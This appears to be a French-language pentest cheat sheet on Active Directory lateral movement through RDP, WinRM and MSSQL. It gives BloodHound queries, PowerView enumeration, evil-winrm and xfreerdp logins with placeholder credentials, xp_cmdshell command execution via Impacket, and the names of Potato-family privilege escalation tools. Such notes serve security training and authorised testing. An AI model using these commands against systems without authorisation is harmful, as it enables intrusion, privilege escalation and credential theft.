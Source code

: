 # Privileged Access

### <mark style="color:red;">1. Protocoles de déplacement latéral</mark>

<table data-full-width="true"><thead><tr><th>Protocole</th><th>Description</th><th>Utilisation</th></tr></thead><tbody><tr><td><strong>RDP (Remote Desktop Protocol)</strong></td><td>Protocole d'accès à distance avec interface graphique</td><td>Contrôle total GUI d'une machine distante</td></tr><tr><td><strong>WinRM (PowerShell Remoting)</strong></td><td>Protocole d'accès à distance via PowerShell</td><td>Exécution de commandes à distance en ligne de commande</td></tr><tr><td><strong>MSSQL Server</strong></td><td>Accès via SQL Server avec privilèges sysadmin</td><td>Exécution de commandes via des requêtes SQL</td></tr></tbody></table>

***

### <mark style="color:red;">2. Énumération des accès</mark>

#### BloodHound - Privilèges à rechercher

* `CanRDP` - Droits d'accès RDP
* `CanPSRemote` - Droits d'accès WinRM
* `SQLAdmin` - Droits administrateur SQL Server

#### PowerView - Commandes d'énumération

{% code fullWidth="true" %}
```powershell
# Énumérer les membres du groupe "Remote Desktop Users"
Get-NetLocalGroupMember -ComputerName COMPUTER-NAME -GroupName "Remote Desktop Users"

# Énumérer les membres du groupe "Remote Management Users" (WinRM)
Get-NetLocalGroupMember -ComputerName COMPUTER-NAME -GroupName "Remote Management Users"
```
{% endcode %}

#### Requêtes Cypher BloodHound personnalisées

<pre><code># Rechercher utilisateurs avec accès WinRM
<strong>MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) 
</strong>MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) 
RETURN p2

# Rechercher utilisateurs avec droits SQLAdmin
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) 
MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) 
RETURN p2
</code></pre>

***

### <mark style="color:red;">3. Exploitation RDP</mark>

#### Depuis Windows

```cmd
mstsc.exe /v:COMPUTER-NAME
```

#### Depuis Linux

```bash
xfreerdp /u:USERNAME /d:DOMAIN /p:PASSWORD /v:TARGET-IP
```

***

### <mark style="color:red;">4. Exploitation WinRM</mark>

#### Depuis Windows (PowerShell)

{% code fullWidth="true" %}
```powershell
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("DOMAIN\USERNAME", $password)
Enter-PSSession -ComputerName TARGET-COMPUTER -Credential $cred
```
{% endcode %}

#### Depuis Linux (Evil-WinRM)

```bash
# Installation
gem install evil-winrm

# Connexion
evil-winrm -i TARGET-IP -u USERNAME -p PASSWORD
```

***

### <mark style="color:red;">5. Exploitation MSSQL Server</mark>

#### Depuis Windows (PowerUpSQL)

{% code fullWidth="true" %}
```powershell
# Importation du module
Import-Module PowerUpSQL.ps1

# Énumération des instances SQL dans le domaine
Get-SQLInstanceDomain

# Exécution d'une requête SQL
Get-SQLQuery -Verbose -Instance "TARGET-IP,1433" -username "DOMAIN\USERNAME" -password "PASSWORD" -query 'Select @@version'
```
{% endcode %}

#### Depuis Linux (Impacket)

```bash
# Connexion
mssqlclient.py DOMAIN/USERNAME@TARGET-IP -windows-auth

# Activation de xp_cmdshell
SQL> enable_xp_cmdshell

# Exécution de commandes système
SQL> xp_cmdshell whoami /priv
```

***

### <mark style="color:red;">6. Points clés à retenir</mark>

* Un utilisateur avec accès RDP/WinRM peut être utilisé pour:
  * Lancer d'autres attaques
  * Élever les privilèges
  * Extraire des données sensibles ou des identifiants
* Les privilèges `SeImpersonatePrivilege` découverts via MSSQL peuvent être exploités avec:
  * JuicyPotato
  * PrintSpoofer
  * RoguePotato
